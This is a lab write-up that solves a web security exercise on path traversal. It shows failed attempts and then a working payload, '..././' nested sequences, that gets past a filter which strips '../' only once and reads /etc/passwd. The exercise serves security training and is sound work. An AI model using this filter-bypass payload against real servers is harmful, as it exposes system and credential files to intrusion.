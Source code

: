 Title: File path traversal, traversal sequences stripped non-recursively
Level: Practitioner
Desc:  This lab contains a path traversal vulnerability in the display of product images.
The application strips path traversal sequences from the user-supplied filename before using it.
To solve the lab, retrieve the contents of the /etc/passwd file. 

absolute path try: `/image?filename=/etc/passwd` - not working 
![image](https://github.com/user-attachments/assets/cc760812-85c5-4d02-9d2c-d342ab42d4fd)

relative path try: `/image?filename=../../../../../..//etc/passwd` - not working
![image](https://github.com/user-attachments/assets/7eaa4760-98f7-4b10-9357-eb354a7ee42e)

According to the "The application strips path traversal sequences from the user-supplied filename before using it.", I think, that the application deletes ../, but there shoud be possibility to add something like that
`..././`, so after deleting pattern `../` application get as follow: `../`, so we have path traversal sequence once again!

The only tick here is to find exact number of those sequences to get /etc/passwd file
![image](https://github.com/user-attachments/assets/ddffa7a5-df5b-47a6-9e50-20505922d765)

success payload: `/image?filename=..././..././..././etc/passwd`

